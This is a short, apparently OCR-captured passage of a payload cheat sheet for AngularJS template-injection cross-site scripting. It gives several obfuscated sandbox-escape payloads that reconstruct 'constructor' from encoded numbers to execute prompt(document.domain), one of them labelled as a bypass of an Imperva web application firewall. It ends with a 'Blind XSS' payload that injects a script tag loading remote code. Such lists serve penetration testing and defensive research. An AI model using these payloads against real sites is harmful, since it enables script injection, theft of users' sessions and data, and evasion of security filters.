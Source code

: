 ```javascript

{{x=767015343;y=50986827;a=x.toString(36)+y.toString(36);b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,toString()[a].fromCharCode(112,114,111,109,112,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41))()}}

```

  ---

```javascript

{{x=767015343;y=50986827;a=x.toString(36)+y.toString(36);b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,toString()[a].fromCodePoint(112,114,111,109,112,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41))()}}

```

  ---

```javascript

{{x=767015343;y=50986827;a=x.toString(36)+y.toString(36);a.sub.call.call({}[a].getOwnPropertyDescriptor(a.sub.__proto__,a).value,0,toString()[a].fromCharCode(112,114,111,109,112,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41))()}}

```

  ---

```javascript

{{x=767015343;y=50986827;a=x.toString(36)+y.toString(36);a.sub.call.call({}[a].getOwnPropertyDescriptor(a.sub.__proto__,a).value,0,toString()[a].fromCodePoint(112,114,111,109,112,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41))()}}

```

  ---
  AngularJS bypass Waf [Imperva]

```javascript

{{x=['constr', 'uctor'];a=x.join('');b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'pr\\u{6f}mpt(d\\u{6f}cument.d\\u{6f}main)')()}}

```

  

### Blind XSS

1.0.1 - 1.1.5 && > 1.6.0 by Mario Heiderich (Cure53)

```javascript

{{

constructor.constructor("var _ = document.createElement('script');

_.src='//localhost/m';

document.getElementsByTagName('body')[0].appendChild(_)")()

}}

```

---
